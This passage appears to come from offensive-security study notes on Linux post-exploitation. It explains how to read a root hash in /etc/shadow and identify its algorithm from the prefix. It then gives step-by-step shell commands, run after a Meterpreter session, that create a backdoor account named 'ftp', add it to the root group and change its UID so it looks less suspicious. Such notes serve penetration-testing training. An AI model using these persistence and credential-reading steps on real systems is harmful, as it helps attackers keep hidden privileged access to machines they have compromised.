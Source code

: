 or we can add a new user:

```bash
useradd -m new_usr -s /bin/bash #and add psw
```

Analyzing root hash of /etc/shadow, file we can see that&#x20;

```
root:$y$j9T$hl8nD2cY/WEF55crjicKw1$7/bAEYLkcpy9sZJ1rZMYX9bFQLJj88qKomFAPB2QDEC:19566:0:99999:7:::
```

the initial characters of the password field value in _/etc/shadow_ identify the encryption algorithm:

* _$1$_ is [Message Digest 5 (MD5)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#md5)
* _$2a$_ is [_blowfish_](https://www.baeldung.com/cs/des-vs-3des-vs-blowfish-vs-aes#3-blowfish)
* _$5$_ is [256-bit Secure Hash Algorithm (SHA-256)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#sha-2)
* _$6$_ is [512-bit Secure Hash Algorithm (SHA-512)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#1-security-1)
* _$y$_ (or _$7$_) is [_yescrypt_](https://www.openwall.com/yescrypt/)
* none of the above means DES

Critically, as of this writing, _**yescrypt**_** with its contest entry** [_**yescrypt v2**_](https://www.password-hashing.net/submissions/specs/yescrypt-v2.pdf) **and** [**current specification**](https://github.com/openwall/yescrypt/blob/main/README)**, is widely-adopted and the default password hashing scheme for many recent versions of major distributions** like [Debian](https://www.debian.org/) 11/12, [Fedora](https://getfedora.org/) 35+, [Kali Linux](https://www.kali.org/get-kali/) 2021.1+, and [Ubuntu](https://ubuntu.com/) 22.04+. Further, it’s supported on Fedora 29+ and [RHEL](https://www.redhat.com/en) 9+. Still, many standard tools still don’t support _yescrypt_.

**Unlike Windows, on Linux we cannot use the hash to authenticate ourselves.**

### Establishing Persistence On Linux

#### Create backdoor user

NB: This technic only work if the target server is running with SSH or a remote access protocol, that can provide us with access whenever we need it (with usr and psw).

After exploiting the target and starting Meterpreter Shell, we need to check if the target has root permission using getuid command, or we need to elevate it.

```bash
shell
/bin/bash -i
cat /etc/passwd
#see it and make sure that account/service name that we want to use doesn't exist
useradd -m ftp -s /bin/bash #if we want to /var/www/html to make service less than clandestine
passwd ftp #create psw
usermod -aG root ftp #provides administrative or root privileges at ftp account
groups ftp #checks group of ftp account
usermod -u 15 ftp #optional, it's only to take ftp account less clandestine, UID (user identifier) is the unique number assigned to the user upon account creation
```
